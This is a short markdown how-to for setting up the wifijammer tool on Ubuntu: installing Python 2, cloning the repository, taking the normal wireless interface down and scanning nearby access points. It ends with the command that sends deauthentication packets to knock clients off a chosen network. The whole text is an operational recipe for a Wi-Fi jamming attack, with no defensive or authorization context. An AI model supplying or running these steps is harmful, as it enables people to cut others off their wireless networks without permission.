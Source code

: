 # Source: https://github.com/DanMcInerney/wifijammer
# Works with wireless cards capable of injection (Alfa has some good ones)
# Take care to buy one that works on 2.4 Ghz and 5 Ghz

## Install python2.7
<code>
sudo apt install python2
</code>
## Clone Repo
<code>
git clone https://github.com/DanMcInerney/wifijammer
cd wifijammer
</code>
## Connect supported wifi device

## Deactivate normal interface

### a) Disable current wifi
Go into Ubuntu WIFI-Settings. Click on the network you are in and uncheck "Connect automatically..."

Take Wifi into Airplane mode

Take Wifi back into normal mode

### b) Take normal iface down
List interfaces with:
<code>
ip a
</code>

Take down normal interface:
<code>
ifconfig wlp0 down
</code>
## List Accesspoints
<code>
sudo iwlist wlx9cefd5fbf646 scanning | egrep 'Cell |Encryption|Quality|Last beacon|ESSID|Channel'
</code>
## Start deauthenticating with

<code>
sudo python2.7 wifijammer -a Address-from-List -c Channel-from-List --world
</code>

## Optionally: Skip an MAC Address from being jammed
Add option:
-d -s MAC-Address
